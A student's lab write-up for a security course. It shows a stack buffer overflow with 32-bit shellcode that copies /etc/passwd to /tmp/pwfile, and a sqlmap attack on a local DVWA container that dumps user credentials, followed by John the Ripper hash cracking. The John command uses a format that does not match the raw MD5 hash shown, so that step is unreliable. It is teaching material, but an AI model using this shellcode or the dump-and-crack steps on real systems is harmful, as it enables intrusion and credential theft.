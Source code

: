 # Lab #1,22119054, Luu Trong Dung, INSE331280E_01FIE
# Task 1: Software buffer overflow attack
**Question 1**: 
- Compile asm program and C program to executable code. 
- Conduct the attack so that when C program is executed, the /etc/passwd file is copied to /tmp/pwfile. You are free to choose Code Injection or Environment Variable approach to do. 
- Write step-by-step explanation and clearly comment on instructions and screenshots that you have made to successfully accomplished the attack.
  

**Answer 1**:
## 1. Create a text file named `bof.c`:
```sh
#include <stdio.h>
#include <string.h>
void redundant_code(char *p)
{
    char local[256];
    strncpy(local, p, 20);
    printf("redundant code\n");
}
int main(int argc, char *argv[])
{
    char buffer[16];
    strcpy(buffer, argv[1]);
    return 0;
}
```

## 2. Create a text file named `shellcode.asm`:
```sh
global _start
section .text
_start:
    xor eax,eax
    mov al,0x5
    xor ecx,ecx
    push ecx
    push 0x64777373 
    push 0x61702f63
    push 0x74652f2f
    lea ebx,[esp +1]
    int 0x80

    mov ebx,eax
    mov al,0x3
    mov edi,esp
    mov ecx,edi
    push WORD 0xffff
    pop edx
    int 0x80
    mov esi,eax

    push 0x5
    pop eax
    xor ecx,ecx
    push ecx
    push 0x656c6966
    push 0x74756f2f
    push 0x706d742f
    mov ebx,esp
    mov cl,0102o
    push WORD 0644o
    pop edx
    int 0x80

    mov ebx,eax
    push 0x4
    pop eax
    mov ecx,edi
    mov edx,esi
    int 0x80

    xor eax,eax
    xor ebx,ebx
    mov al,0x1
    mov bl,0x5
    int 0x80
```

## 3.Compile asm program and C program to executable code. 
Step 1: First compile the code
before compile must run docker
```sh
docker run -it --privileged -v 'E:\Learn\Secure\KT:/home/seed/seclabs' securelabs
```
compile C program
```sh
gcc -g bof.c -o bof.out -fno-stack-protector -mpreferred-stack-boundary=2 -z execstack
```
Compile asm program 
```sh
nasm -f elf32 shellcode.asm -o shellcode.o
```
linking asm
```sh
ld -o shellcode shellcode.o
```
## 4.Conduct the attack so that when C program is executed, the /etc/passwd file is copied to /tmp/pwfile. You are free to choose Code Injection or Environment Variable approach to do. 

Step2: insert the compiled file bof.out into gdb to see the address of the redundant_code() function and record the address
```sh
gdb -q bof.out
```
save address of redundant_code: 0x0804846b
```sh
disas redundant_code
```
![](./images/Screenshot%202024-10-21%20083428.png)


Step 3: Exit the GDB and start the attack by inserting the address of the function that was saved in the upper step of Return.
```sh
./bof.out $(python -c "print('a'*20 + '\x6b\x84\x04\x08')")
```

output screenshot (optional)
![](./images/Screenshot%202024-10-21%20084105.png)


# Task 2: Attack on database of DVWA
- Install dvwa (on host machine or docker container)
- Make sure you can login with default user
- Install sqlmap
- Write instructions and screenshots in the answer sections. Strictly follow the below structure for your writeup. 
  
## Setup
Step1: Install dvwa and sqlmap

Install dvwa
```sh
docker run --rm -it -p 80:80 vulnerables/web-dvwa
```
Install sqlmap
```sh
sudo apt update
sudo apt install sqlmap
```

Step2: next to the browser, type in the URL bar "localhost:80" and log in with (Admin, password)
![](./images/Screenshot%202024-10-21%20094110.png)

Step3: then select sql injection and fill in 1 user ID of any submit, then copy URl 
![](./images/Screenshot%202024-10-21%20094223.png)

Step4: next press f12 to find and save Cockie
![](./images/Screenshot%202024-10-21%20094329.png)

**Question 1**: Use sqlmap to get information about all available databases
**Answer 1**: This command includes the URL and cookie saved in the Setup steps
```sh
sqlmap -u "http://localhost/vulnerabilities/sqli/?id=1&Submit=Submit" --cookie="PHPSESSID=j1jkcruu09uddv6q2jbbc7a125; security=low" --dbs
```

![](./images/Screenshot%202024-10-21%20094903.png)

**Question 2**: Use sqlmap to get tables, users information
**Answer 2**: The figure below contains 2 tables in the DVWA database, User and Guestbook
use sqlmap to get tables 
```sh
sqlmap -u "http://localhost/vulnerabilities/sqli/?id=1&Submit=Submit" --cookie="PHPSESSID=j1jkcruu09uddv6q2jbbc7a125; security=low" --dbs --tables
```
![](./images/Screenshot%202024-10-21%20095522.png)

use sqlmap to get infomation of users table in database dvwa
```sh
sqlmap -u "http://localhost/vulnerabilities/sqli/?id=1&Submit=Submit" --cookie="PHPSESSID=j1jkcruu09uddv6q2jbbc7a125; security=low" -D dvwa -T users --columns
```
![](./images/Screenshot%202024-10-21%20100555.png)


**Question 3**: Make use of John the Ripper to disclose the password of all database users from the above exploit
**Answer 3**:

```sh
sqlmap -u "http://localhost/vulnerabilities/sqli/?id=1&Submit=Submit" --cookie="PHPSESSID=j1jkcruu09uddv6q2jbbc7a125; security=low" -D dvwa -T users --dump   
```
With the above command we get the data in the users table
![](./images/Screenshot%202024-10-21%20102134.png)

Retrieve the hashed password of any user
```sh
echo "5f4dcc3b5aa765d61d8327deb882cf99" > hashes.txt
```

Install John
```sh
sudo apt update
sudo apt install john -y
```

Use John decrypt hashes password save in hashes.txt, with format=md5
```sh
john --format=md5crypt hashes.txt
```

